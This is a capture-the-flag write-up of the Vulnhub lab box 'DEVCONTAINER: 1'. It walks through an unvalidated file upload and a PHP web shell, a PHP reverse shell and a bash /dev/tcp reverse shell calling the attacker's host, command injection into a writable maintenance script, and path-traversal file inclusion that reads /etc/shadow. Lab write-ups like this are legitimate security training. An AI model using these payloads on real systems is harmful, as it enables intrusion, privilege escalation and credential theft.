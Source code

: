 ```yaml
---
layout: post
title:  "Vulnhub - DEVCONTAINER: 1"
date:   2020-10-09 20:00:00 +1000
category: hacking
---
```


## Introduction
*Goal: 2 flagas  
Difficulty: Easy-intermediate*

Well, not much to go on here. The box is [DEVCONTAINER: 1](https://www.vulnhub.com/entry/devcontainer-1,548/) from vulnhub.

## Ports
We've got one port only; HTTP on 80.

## HTTP
So with a quick *gobuster* fishing expedition we find an *upload* directory:

>http://192.168.1.97/upload/

And it contains the text: *Allowed file types: jpg,gif,png,zip,txt,xls,doc*  
However, in the page source there is a comment saying *I need to validate file extensions* - so maybe the whitelisting hasn't been implemented yet? Let's see.

I create a file **test.php** with the content:

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

And try to upload it - it is accepted. So that's great. Now we go fire off a reverse shell:

``
http://192.168.1.97/upload/files/test.php?cmd=php+-r+%27$sock%3dfsockopen(%22192.168.1.77%22,1234)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
``

And we're on the box as **www-data**.

## In a container
We're in a Docker container and there is no *python* or *python3*, which I would normally use to upgrade my shell. Instead I do: 

{% highlight shell %}
/usr/bin/script -qc /bin/bash /dev/null
stty raw -echo; fg; reset
{% endhighlight %}

And that does the job. The suggestion came from [here](https://schtech.co.uk/linux-reverse-shell-without-python/).

In the web directory, there are a couple of interesting things, including this script:

{% highlight shell %}
www-data@1a135ef22c7a:/var/www/html/Maintenance-Web-Docker$ cat maintenance.sh
cat maintenance.sh
#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh
{% endhighlight %}

So this executes the **list.sh** script. What's in that?

{% highlight shell %}
www-data@1a135ef22c7a:/var/www/html/Maintenance-Web-Docker$ cat list.sh
cat list.sh
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
{% endhighlight %}

We have write access to **list.sh**, so what if we add a line to it?

``
www-data@1a135ef22c7a:/var/www/html/Maintenance-Web-Docker$ echo "bash -i >& /dev/tcp/192.168.1.77/1235 0>&1" >> list.sh
``

With a new listener, we get a new shell as **Richard**.

## EC2
From Richard we can get our first flag, user.txt:
*3a6b99f59ea363803bcafc7f5dd9b1e8*

Richard appears to have an interesting capability:

{% highlight shell %}
richard@EC2:~$ sudo -l
sudo -l
Matching Defaults entries for richard on EC2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on EC2:
    (ALL) NOPASSWD: /home/richard/HackTools/socat TCP-LISTEN\:8080\,fork
        TCP\:127.0.0.1\:90
{% endhighlight %}

We can run the command; nothing very interesting seems to happen. I'm not familiar with *socat*, but doing some research shows this is a port forwarding command. We can visit http://192.168.1.97:8080/ in Firefox - and there is a webpage. This port wasn't open previously.

## LFI
The webpage has two links:
>http://192.168.1.97:8080/index.php?view=about-us.html
http://192.168.1.97:8080/index.php?view=contact-us.html

Interestingly, these aren't separate pages, but *view* parameters in index.php (and they don't work). Does anything else work? Yes:

>http://192.168.1.97:8080/index.php?view=../../../../../etc/passwd
http://192.168.1.97:8080/index.php?view=../../../../../etc/shadow
http://192.168.1.97:8080/index.php?view=../../../../../root/proof.txt

So we've got Local File Inclusion and can read both the shadow file *and* the last flag. I copied the root hash and threw John at it but it didn't seem keen to break. 

So we've gotten the flag - but can we also get a shell? Sure, why not.

Since I didn't previously upload a shell (just a command grabber), I need to upload one now - I used the usual *pentestmonkey* shell. Then I can go to:

>http://192.168.1.97:8080/index.php?view=../../../../../../home/richard/web/upload/files/shell.php

And catch a reverse shell as root. Now we really are done.

